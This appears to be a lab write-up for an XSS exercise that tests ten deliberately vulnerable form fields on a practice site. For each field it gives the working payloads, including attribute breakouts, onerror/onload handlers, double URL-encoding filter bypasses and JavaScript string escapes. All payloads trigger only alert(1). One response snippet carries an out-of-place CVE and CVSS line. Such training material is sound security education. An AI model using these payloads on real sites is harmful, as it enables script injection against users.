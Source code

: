 # Exercise - Black-box discovery of XSS exploits

The goal here is to visit https://331.cybersec.fun/xss.php, which contains 10 input fields and a submit button. The challenge is to break all 10 of these inputs via manual testing. For each injection point, we must find an exploit to display a popup message on the webpage.

## Form 1
- I first tried sending the payload `<script>alert(1)</script>`, and noticed that the response was `alert(1)`. This means our input is being sanitized and reflected.
- I tried using a mix of upper and lowercase with`<sCrIpT>`, with the same result.
- Next, I tried `<img src=x>`, which was also removed.
- I then tried `<iframe>`, which did render an iframe! This is our way to perform XSS!
- The payload `<iframe onload=alert(1)>` works.

## Form 2
Tried sending `aaaa`, and noticed nothing was printed in response. However, when inspecting the response, I noticed this:
```HTML
Response 2 (CVE-2021-24884) 9.6 (CVSS 3.x):
  <a href="https://example.com" data-frmverify="aaaa">
```
So we can see that our input is placed in the `data-frmverify` attribute of the `<a>` tag. This means that if quotes aren't sanitized we can escape this and inject code. Some example payloads are:
- `" onmouseover=alert(1)> aaa`
- `"><img src=x onerror=alert(1)>` (This one triggers as soon as the page loads so I prefer it)

## Form 3
With the same approach as the previous form, we can see that an input of `aaa` returns:
```HTML
<a href="aaa"> Click me</a>
```
Meaning that a similar approach the the previous form could work (and it does). The payload `"><img src=x onerror=alert(1)>` works!

## Form 4
With this form, we can see that our input is being reflected. The payload `<img src=x onerror=alert(1)>` works!

## Form 5
The response here is similar to forms 2 and 3:
```html
<input type='checkbox' name='vuln_form' value='aaa'>
```
If we try escaping the value field with the payload `" onload=alert(1)`, we can see that our `"` is being sanitized as it's not letting us escape the attribute:
```HTML
	<input type='checkbox' name='vuln_form' value='" onload=alert(1)'>
```
However, if we instead try a `'` instead it does work:
```HTML
<input type='checkbox' name='vuln_form' value='' onload='alert(1)'>
```
However, the `onload` event doesn't trigger for this type. If we use the onmouseover event then our alert is displayed whenever the user mouses over the checkbox: `' onmouseover='alert(1)`.

If we try escaping the tags with `'><img src=x onerror='alert(1)`, we can see that the `<>` characters are also being sanitized:
```HTML
<input type='checkbox' name='vuln_form' value=''&gt;&lt;img src=x onerror='alert(1)'>
```
Even if we send this as their url encoded counterparts `%3c` and `%3e`, we get the same response. It is considered sufficient if we can trigger XXS with user input, so the `onmouseover` payload was considered fine.

## Form 6
This form echos our input back, so `aaaa` is rendered as `aaaa`. The trick here is now how to bypass the filters to execute a payload. If we send the payload `<script>alert(1)</script>`, we can see that the `<` is displayed as the html element `&lt;` and `>` is displayed as `&gt;`, meaning they are being sanitized. The payload above in url encoding is `%3cscript%3ealert(1)%3c%2fscript%3e`. By using double encoding our payload it’s possible to bypass security filters that only decode user input once. The second decoding process is executed by the backend platform or modules that properly handle encoded data, but don’t have the corresponding security checks in place. This means that if we enter our encoded payload into the form, it should be re-encoded and could bypass the sanitization filter (and it does!). The payload `%3cscript%3ealert(1)%3c%2fscript%3e` creates the following response:
```html
<script>alert(1)</script>
```

## Form 7
Inspecting our response for the `aaaa` payload shows the following:
```html
<script>eval('aaaa')</script>
```
The javascript `eval()` function takes a string and executes it as if it were javascript code. This means if we just put in the payload `alert(1)` then barring any filters this should be executed for us (how nice of them), and it does.

## Form 8
Our payload of `aaaa` is displayed on the page as:
```html
<aaaa>
```
Essentially, this form seems to wrap our input in `<>`. This means that even if these characters are being sanitized, we can take advantage of the tags that wrap our input to create a payload such as `img src=x onerror="alert(1)"`. This works, causing the following output:
```html
<img src="x" onerror="alert(1);">
```

## Form 9
Once again startin with our classic `aaaa`, we can see:
```html
<script>
	var x = '<% aaaa%>';
	var d = document.createElement('div');
	d.innerElement = x;
	document.body.appendChild(d);
</script>
```
If `'` aren't escaped, this means we should be able to escape the string defining `var x` and simply enter our own arbitrary javascript code (remembering to handle the `%>'` after our input). I decided to try the following payload: `'; alert(1); var y = '`, we obtain the following:
```html
<script>
	var x = '<% '; 
	alert(1); 
	var y = '%>';
	var d = document.createElement('div');
	d.innerElement = x;
	document.body.appendChild(d);
</script>
```
This triggers the alert successfully.

## Form 10
Once again applying the `aaaa` test, we can see the following:
```html
<img src="aaaa">
```
If we can escape the quotes, we can execute javascript code with either `onerror` or using `<script>` tags if `<>` characters aren't sanitized. Whilst `"` don't work, the `'` characters seem to be escaped incorrectly, where a literal `\` is printed and doesn't escape the single-quote. A payload of `' id=test ` is rendered as:
```html
<img src="\" id="test" '="">
```
Here it seems that the closing `'` has become an attribute of the `<img>` and is set to an empty string. This means that we can use the `onerror` attribute to execute javascript, but we can't use any other quotes as these will also be pre-pended with backslashes. Alternatively, using `<script>` tags also worked, giving us 2 payloads:
- `'><script>alert(1)</script> `
- `' onerror=alert(1) `

That's all of them :)